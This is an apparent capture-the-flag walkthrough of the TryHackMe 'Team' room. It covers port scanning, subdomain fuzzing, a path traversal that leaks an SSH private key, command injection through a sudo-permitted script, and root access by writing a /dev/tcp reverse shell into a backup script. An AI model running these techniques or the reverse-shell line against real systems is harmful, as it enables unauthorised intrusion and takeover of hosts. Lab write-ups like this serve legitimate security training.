 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Team
# DESCRIPTION       . Beginner friendly boot2root machine
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/teamcw
```

```
pi@raspberry:~ $ sudo nmap -sSVC -T5 -p- 10.10.83.82 -oN team
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 795f116a85c20824306cd488741b794d (RSA)
|   256 af7e3f7eb4865883f1f6a254a69bbaad (ECDSA)
|_  256 2625b07bdc3fb29437125dcd0698c79f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

#### PORT 80

- Checking the source code, we find the following

```
If you see this add 'team.thm' to your hosts!
```

- So we added `ip             team.thm` to our `/etc/hosts` file.

- Fuzzing `team.thm`, we find several pieces of relevant information

```
assets                  [Status: 301, Size: 305, Words: 20, Lines: 10]
images                  [Status: 301, Size: 305, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 2966, Words: 140, Lines: 90]
robots.txt              [Status: 200, Size: 5, Words: 1, Lines: 2]
scripts                 [Status: 301, Size: 306, Words: 20, Lines: 10]
```

**robots.txt** 

- contains the string `dale` - possible username.

**scripts** and **assets** - no access.

**images** - just images.

- Having to clear path found, I tried to bruteforce both `SSH` and `FTP` with `dale` as username, but I since I haven't had any luck in the first few minutes, I assumed this isn't the right path.

- So I've decided to fuzz for subdomains

```
fuf -c -w /usr/share/wordlists/wfuzz/general/common.txt -u http://team.thm -H "Host: FUZZ.team.thm" -fl 374
```

**NOTE**: I added `-fl 374` because I got a lot of `200 OK` having 374 lines in length and I assumed those are false positives.

```
dev                     [Status: 200, Size: 187, Words: 20, Lines: 10]
www                     [Status: 200, Size: 2966, Words: 140, Lines: 90]
```

- Modify `/etc/hosts` to point to `dev.team.thm`

- After clicking the link, the URL changes to `http://dev.team.thm/script.php?page=teamshare.php`.

- Trying to replace `teamshare.php` with a simple `../../../etc/passwd` reveals that the page is vulnerable to Path Traversal.

- I tried looking for `/home/dale/.ssh/id_rsa` but I had no luck ; next, I've decided to check the config of ssh to see if the user `dale` is even allowed to `SSH` into the box, and I kind of hit the jackpot :)

- After reading the `/etc/ssh/sshd_config` file I found the `private key` of `dale` at the end. (and yes, he's allowed to SSH to the box)

```
{TRUNCATED}

AllowUsers dale gyles

#Dale id_rsa

#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
#k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS
#xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S
#0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2
#EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU
#eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v
								{REDACTED}
#wQC5Tzei2ZXPj5yN7EgrQk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0q
#z+zdN4wIKHMdAg0yaJUUj9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6
#RuSnARrKjgkXT6bKyfGeIVnIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7
#/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----
```

- User flag is in `/home/dale/user.txt`.

```
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

```
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

- This is a bash script ; however, this is owned by user gyles, and since `$error` is getting executed, let's try running the script with the `/bin/bash` as input instead of date.

```
Reading stats.
Reading stats..
Enter name of person backing up the data: abc
Enter 'date' to timestamp the file: /bin/bash
The Date is whoami
gyles
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- Back to privilege escalation.

```
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

- `editors` and `admin` are not default groups a user should be in, so let's see what files are owned by these groups.

```
gyles@TEAM:~$ find / -group admin 2>/dev/null
/usr/local/bin
/usr/local/bin/main_backup.sh
/opt/admin_stuff

gyles@TEAM:~$ find / -group editors 2>/dev/null
/var/stats/stats.txt
/home/gyles/admin_checks
```

- The `/opt/admin_stuff` directory contains a `script.sh` file that is owned by `root:root` and we can't execute it ;

- `/usr/loca/bin/main_backup.sh` is owned by `root:admin` and we have `rwx` permissions for it.

```
gyles@TEAM:~$ ls -l /opt/admin_stuff/
-rwxr--r-- 1 root root 200 Jan 17  2021 script.sh
```

```
gyles@TEAM:~$ ls -l /usr/local/bin/main_backup.sh 
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
```

```
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```

- I've changed the `cp` command to `sh -i 5<> /dev/tcp/10.11.53.46/3131 0<&5 1>&5 2>&5` and waited for a short while with my listener on even if I didn't see anything in `/etc/crontab`. 

- Shortly after I got a shell as `root`.

- The last flag is in `/root/root.txt`.